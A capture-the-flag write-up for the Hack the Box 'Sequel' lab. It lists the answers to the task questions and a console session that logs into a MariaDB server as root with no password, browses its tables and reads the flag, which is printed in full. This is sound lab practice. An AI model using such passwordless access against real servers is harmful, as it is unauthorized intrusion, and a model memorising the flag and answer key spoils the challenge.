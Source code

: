 # Sequel
* Source: [Hack the Box](https://hackthebox.com/)
* Challenge: Sequel
* Topic: [[SQL]]
* Difficulty: Very easy
* Date: 12-04-2022
* Author: [DjikstraCS](https://github.com/DjikstraCS)

---
## Tasks
1. What does the acronym SQL stand for? 
 - **Structured Query Language**
2. During our scan, which port running mysql do we find? 
- **3306**
3. What community-developed MySQL version is the target running? 
- **MariaDB**
4. What switch do we need to use in order to specify a login username for the MySQL service? 
- **-u**
5. Which username allows us to log into MariaDB without providing a password? 
- **root**
6. What symbol can we use to specify within the query that we want to display everything inside a table? 
- **\* **
7. What symbol do we need to end each query with? 
- **;**

---
## Flag:
Get the flag from the database:

```console
┌──(kali㉿kali)-[~]
└─$ mysql -h 10.129.148.58 -u root
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 225
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;

+--------------------+
| Database           |
+--------------------+
| htb                |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.067 sec)

MariaDB [(none)]> use htb;

Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed

MariaDB [htb]> show tables;

+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+
2 rows in set (0.064 sec)

MariaDB [htb]> select * from config;

+----+-----------------------+----------------------------------+
| id | name                  | value                            |
+----+-----------------------+----------------------------------+
|  1 | timeout               | 60s                              |
|  2 | security              | default                          |
|  3 | auto_logon            | false                            |
|  4 | max_size              | 2M                               |
|  5 | flag                  | 7b4bec00d1a39e3dd4e021ec3d915da8 |
|  6 | enable_uploads        | false                            |
|  7 | authentication_method | radius                           |
+----+-----------------------+----------------------------------+
7 rows in set (0.063 sec)
```

**Flag:** `7b4bec00d1a39e3dd4e021ec3d915da8`

---
**Tags:** [[HackTheBox]] [[MariaDB]]